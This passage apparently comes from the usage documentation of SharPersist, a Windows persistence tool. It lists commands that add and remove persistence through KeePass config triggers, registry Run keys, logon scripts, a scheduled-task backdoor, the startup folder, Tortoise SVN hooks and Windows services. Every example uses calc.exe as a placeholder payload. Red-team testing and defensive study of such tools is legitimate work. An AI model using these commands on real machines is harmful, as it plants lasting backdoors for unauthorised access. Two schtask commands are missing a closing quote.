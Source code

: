 **KeePass**

`SharPersist -t keepass -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "C:\Users\username\AppData\Roaming\KeePass\KeePass.config.xml" -m add `


**Registry**

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add`

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env`

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add`



**Scheduled Task Backdoor**

`SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add`


**Startup Folder**

`SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add`


**Tortoise SVN**

`SharPersist -t tortoisesvn -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -m add`


**Windows Service**

`SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add`


**Scheduled Task**

`SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task -m add`

`SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task -m add -o hourly`


## Removing Persistence Triggers (Remove)


**KeePass**

`SharPersist -t keepass -f "C:\Users\username\AppData\Roaming\KeePass\KeePass.config.xml" -m remove`


**Registry**

`SharPersist -t reg -k "hkcurun" -v "Test Stuff" -m remove`

`SharPersist -t reg -k "hkcurun" -v "Test Stuff" -m remove -o env`

`SharPersist -t reg -k "logonscript" -m remove`

